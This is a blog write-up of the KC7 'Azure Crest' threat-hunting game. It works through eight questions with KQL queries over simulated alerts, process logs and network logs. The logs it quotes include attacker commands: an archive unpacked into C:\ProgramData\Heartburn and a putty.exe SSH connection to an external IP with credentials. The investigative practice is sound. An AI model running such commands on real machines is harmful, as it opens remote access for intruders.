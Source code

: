 ## System Shutdown at Azure Crest!

This will be a writeup blog post about my solutions to the KC7 "System Shutdown at Azure Crest!" Investigative Cyber Security game. I will be updating this blog post with my solutions as I complete more of the challenge instead of making separate blog posts for each day. 

## Question 1
The question prompts us with an email from our boss telling us that there was a security alert in the system about a file that is "health" related. The email from our boss finds us to find this file and assess it's threat level and fill out a "super-secret-agent report" template and send it to him. For this question it is asking us to find the name of this suspicious file. In the Azure Data Explorer we can use this KQL query to find two security alerts.
```KQL
SecurityAlerts
| where description contains "health"
```

We find two alerts one with a `high` severity, and one with a `med` severity. The `high` severity alert is the one that we are looking for as it contains the following description: `A suspicious file was quarantined on host ZQHM-LAPTOP: New_Healthcare_Protocols.docm`. Entering the `New_Healthcare_Protocols.docm` we gain the 300pts for Question 1.

## Question 2
This next question is asking about a secondary file name for the same malicious "health" file. Using the following query we can investigate the same machine that the alert originated with:
```KQL
SecurityAlerts
| where description contains "ZQHM-LAPTOP"
```

Here we find two results, one is the original security alert for the first file, the second is a new alert for a secondary file: `Pediatric_Care_Update.docm`. Entering this into the KQL website we gain another 300pts for Question 2.

## Question 3
In the query for Question 2 we discover our second file name, now in order to track how many employees clicked on this email we can run the following query:
```KQL
FileCreationEvents
| where filename == "New_Healthcare_Protocols.docm" or filename == "Pediatric_Care_Update.docm"
| distinct username
```
This query will return to us our results with `37` unique `username`'s. This is our answer for Question 3 and will reward us with another 300pts. 

## Question 4
Taking one of those unique usernames and looking at `process_commandline` for that `username` will reveal to us the commands that were ran on the machine.
```KQL
ProcessEvents
| where username == "jomarkland"
```

Sorting by timestamp we see the event after the initial download of `New_Healthcare_Protocols.docm` was this command: `C:\ProgramData\Heartburn\heartburn.zip`. This file directory is very suspicious as there is a .zip file being stored in some ProgramData directory called `Heartburn`. Submitting the directory `C:\ProgramData\Heartburn\` to KC7 will reward us with another 300pts.

## Question 5
Using the query we crafted in Question 4:
```KQL
ProcessEvents
| where username == "jomarkland"
```
Looking further into the `ProcessEvents` for user `jomarkland` in Question 4 we see another command being ran later:
`cmd.exe /c C:\ProgramData\Heartburn\putty.exe -ssh 93.142.203.80 -l have_ya_tried -pw turning_it_off_and_on_again`. Submitting the answer `SSH` to the KC7 website will give us another 300pts.

## Question 6
Question 6's answer is a reference to Question 4 where we discovered the directory `C:\ProgramData\Heartburn\`. The command that utilized this directory was the following: `cmd.exe /c Expand-Archive -Path C: \ProgramData\heartburn.zip -DestinationPath C:\ProgramData\Heartburn`. Using this as our answer rewards us with 300pts. 

## Question 7
This is a reference to Question 5 where we discovered a putty.exe command for ssh to an ip address. This ip address when thrown into a ip to geo locator will return a location in Croatia. The answer for question 7 is: `93.142.203.80`. Using this as our answer gives us 300pts.

## Question 8
Using the IP we used in Question 7 we can search the `InboundNetworkEvents` filtering by `src_ip` for `93.142.203.80`. Using the following query: 
```KQL
InboundNetworkEvents
| where src_ip == "93.142.203.80"
```

We find 4 records of inbound network traffic from the ip address `93.142.203.80`. The `user_agent` columns for each record is `Opera/9.63.(Windows CE; lb-LU) Presto/2.9.161 Version/12.00`, in which we find our answer for Question 8 which is `12.00`. 